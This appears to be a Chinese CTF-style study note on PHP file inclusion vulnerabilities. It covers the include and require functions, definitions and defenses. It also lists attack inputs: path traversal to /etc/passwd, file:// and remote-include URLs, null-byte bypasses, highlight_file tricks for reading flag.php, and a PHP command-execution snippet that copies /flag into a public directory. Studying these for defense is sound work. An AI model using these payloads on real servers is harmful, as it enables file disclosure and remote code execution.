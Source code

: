 ## PHP文件包含方法（函数）
```
// include();       文件包含失败后，报警告错误，后面的代码会执行
include " ";
// include_once();  包含文件时，先做一个检测，如果前面的文件有包含就不再执行


include一个思路是包含php代码。include的包含方式是先检查一遍所要包含的文件是否存在，如果存在则包含，不存在则报错。
如果包含的是php代码，include会先执行一遍php代码，再将未经url编码的报错信息写入日志文件。
我们可以包含执行命令的php代码，如<? `cat /flag>xx/public/flag.txt`;?>将命令执行结果输出到可访问的文件目录下，如public目录，
但是重定向输出执行结果到指定文件需要public目录的绝对路径。
获取绝对路径的思路是利用/proc/进程PID/cmdline找到存在start.php的命令，因为cmdline包含了运行start.php时文件的绝对路径。



// require();       文件包含失败后，报致命错误，后面的代码不会执行
// require_once();  包含文件时，先做一个检测，如果前面的文件有包含就不再执行
fopen()
readfile()
highlight_file("config.php");        //文件内容包含高亮。

highlight_file(session_id(session_start()));
此时cookie中，PHPSESSID=flag.php

highlight_file(next(array_reverse(scandir(pos(localeconv())))));
读同目录下文件
```


## 什么是文件包含

就是把多个文件 用各种方法 包含在一个文件里。

## []()什么是文件包含漏洞

开发人员开启了allow_url_include=on可以进行url文件包含，且包含函数的参数可控，
黑客可以配合文件上传，恶意日志，包含有php代码的任何文件，通过文件包含漏洞从而去运行恶意文件。
也可能读服务器上面的文件内容。

## []()文件包含漏洞条件

* 外部可控
* 要有条件 （allow_url_include=on，默认allow_url_include=off）

## []()防御方法

* 设置白名单
* 过滤危险字符
* 关闭危险配置
* 限制文件包含的路径，比如只能包含某个目录内的
* 严格判断包含中的的参数是否外部可控，尽量不要使用动态包含

## []()PHP文件包含类型

1. 包含本地文件
   - 相对路径的写法
    ```
    ?file=b.php
    ?file=../../b.php  
    ?file=../../../../../../../etc/passwd  
    ?file= hint.php?/../../../../../etc/passwd 
    此方法只适合在Linux环境下使用，hint.php?/会被当作目录

    ```
    - 绝对路径的写法，file协议
    ```
   ?file=file:///D:/WWW/1_students/202111/20211224/b.php
    ```
    - php的伪协议url
    ```

    ```

2. 包含远程文件(必须服务器开启了 远程包含的功能)
    PHP的配置文件：php.ini
    ```
    allow_url_include=On
    ```
    远程包含的写法
    ```
    ?file=http://localhost/1_students/202111/20211224/b.php

ip转数字
http://1.92.88.247/1
http://22829303/1
    ```

3. 文件包含绕过
目录穿越
```
../
/../
/.%00.%2F
包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。
```

^
4. 文件包含利用：
    日志包含
    php session包含


